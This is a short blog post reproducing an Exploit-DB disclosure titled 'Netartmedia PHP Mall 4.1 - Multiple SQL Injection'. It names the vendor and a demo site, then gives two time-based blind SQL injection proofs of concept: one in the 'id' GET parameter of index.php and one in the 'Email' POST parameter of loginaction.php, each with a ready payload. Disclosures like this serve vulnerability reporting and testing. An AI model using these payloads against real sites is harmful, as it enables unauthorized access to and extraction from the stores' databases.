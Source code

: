 2019-03-19-netartmedia-php-mall-multiple-sql-injection.Markdown

---
layout:     post
title:      "Netartmedia PHP Mall 4.1 - Multiple SQL Injection"
date:       2019-03-19 12:36
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---

# Exploit Title: Netartmedia PHP Mall 4.1 - Multiple SQL Injection
# Date: 19.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://www.netartmedia.net/mall/
# Demo Site: https://www.phpscriptdemos.com/mall/
# Version: 4.1
# Tested on: Kali Linux
# CVE: N/A
# Description: PHP Mall is one of the first multi-stores and multi-vendors
php scripts (offered since 2006) and successfully used on many websites
today.

----- PoC 1 : SQLi (time-based blind) -----
# Request: http://localhost/[PATH]/index.php
# Parameter: id (GET)
# Payload: id=1 AND SLEEP(5)&item=&lang=en&mod=details

----- PoC 2 : SQLi (time-based blind) ----
# Request: http://localhost/[PATH]/loginaction.php
# Parameter: Email (POST)
# Payload: Email=0'XOR(if(now()=sysdate(),sleep(0),0))XOR'Z' OR SLEEP(5)
AND 'tOoX'='tOoX&Password=g00dPa$$w0rD&lang=en
